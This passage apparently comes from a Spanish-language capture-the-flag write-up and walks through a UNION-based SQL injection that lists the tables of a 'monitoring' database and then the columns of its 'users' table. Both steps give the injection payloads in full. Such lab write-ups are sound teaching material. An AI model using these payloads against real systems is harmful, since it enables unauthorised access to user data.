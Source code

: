 La base de datos que me interesa es la de `monitoring`, así que vamos a hacer uso de la tabla `information_schema.tables` para ver las tablas de esta base de datos.
![Write-up Image](images/Screenshot_18.png)

***Payload:***
```
test" UNION SELECT group_concat(TABLE_NAME),2,3,4 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='monitoring'-- -
```

Vemos vamos tablas, la tabla `users` es la que mas interesante se ve, por lo cual vamos a ver que columnas tiene esta tabla haciendo uso de la tabla `information_schema.columns`.
![Write-up Image](images/Screenshot_19.png)

***Payload:***
```
test" UNION SELECT group_concat(TABLE_NAME, ' - ', COLUMN_NAME),2,3,4 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='monitoring' AND table_name='users' -- -
```
